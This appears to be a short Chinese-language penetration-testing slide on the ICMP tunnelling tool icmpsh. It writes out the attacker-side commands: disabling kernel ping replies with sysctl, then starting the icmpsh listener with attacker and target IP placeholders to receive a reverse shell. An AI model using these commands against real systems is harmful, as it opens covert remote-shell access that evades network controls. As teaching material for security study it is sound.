

# ICMP隧道工具
在攻击机/vps上运行：icmpsh（Kali Linux）
执行之前最重要的一步是在你的机器上关闭ping回复。这样可以防止内核自己对ping包进行响应
sysctl -w net.ipv4.icmp_echo_ignore_all=1        #关闭ping回复
cd icmpsh
./icmpsh_m.py <attacker’s-IP> <target-IP>    #命令